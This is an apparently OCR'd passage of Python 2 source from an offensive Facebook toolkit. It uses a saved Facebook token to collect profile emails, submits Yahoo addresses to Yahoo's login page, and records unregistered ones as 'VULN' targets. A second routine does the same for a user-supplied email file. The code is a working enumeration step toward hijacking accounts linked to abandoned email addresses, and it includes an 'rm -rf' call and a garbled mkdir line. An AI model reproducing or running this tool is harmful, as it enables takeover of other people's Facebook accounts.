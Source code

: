 		z = json.loads(links.text)
		try:
			mail = z['email']
			yahoo = re.compile(r'@.*')
			otw = yahoo.search(mail).group()
			if 'yahoo.com' in otw:
				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				click = br.submit().read()
				seat = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					picks = seat.search(click).group()
				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in picks:
					save.write(mail + '\n')
					print("\033[1;97m[ \033[1;92mVULN✓\033[1;97m ] \033[1;92m" +mail+" \033[1;97m=>"+fb_name)
					sucessful.append(mail)
		except KeyError:
			pass
	print 42*"\033[1;97m═"
	print '\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mDone \033[1;97m....'
	print"\033[1;91m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(sucessful))
	print"\033[1;91m[+] \033[1;92mFile saved \033[1;91m:\033[1;97m out/groupMailVuln.txt"
	save.close()
	raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
	menu_yahoo()

##### YAHOO FILE #####
def yahoolist():
	global fb_token
	os.system('clear')
	try:
		fb_token=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('clear')
	print logo
	files = raw_input("\033[1;91m[+] \033[1;92mFile path \033[1;91m: \033[1;97m")
	try:
		total = open(files,"r")
		mail = total.readlines()
	except IOError:
		print"\033[1;91m[!] File not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_yahoo()
	mpsh = []
	jcsb = 0
	mkdir('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
	save = open('out/FileMailVuln.txt','w')
	print 42*"\033[1;97m═"
	mail = open(files,"r").readlines()
	for pw in mail:
		mail = pw.replace("\n","")